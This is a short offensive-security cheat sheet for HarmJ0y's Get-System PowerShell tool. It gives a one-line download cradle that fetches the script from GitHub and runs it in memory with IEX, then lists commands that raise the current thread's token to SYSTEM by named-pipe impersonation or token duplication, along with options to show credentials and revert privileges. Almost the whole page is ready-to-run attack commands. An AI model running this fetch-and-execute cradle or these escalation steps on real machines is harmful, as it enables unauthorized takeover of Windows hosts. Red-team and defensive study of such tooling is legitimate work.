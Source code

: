 # HarmJ0y GetSystem

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/Misc-PowerShell/master/Get-System.ps1')
```

Uses named impersonate to elevate the current thread token to SYSTEM.

```
PS C:\> Get-System
```

Uses named impersonate to elevate the current thread token to SYSTEM with a custom service and pipe name.

```
PS C:\> Get-System -ServiceName "<service_name>" -PipeName '<pipe_name>'
```

Uses token duplication to elevate the current thread token to SYSTEM.

```
PS C:\> Get-System -Technique Token
```

Displays the credentials for the current thread.

```
PS C:\> Get-System -WhoAmI
```

Reverts the current thread privileges.

```
PS C:\> Get-System -RevToSelf
```

---
## References

- [HarmJ0y: Get-System.ps1](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Get-System.ps1)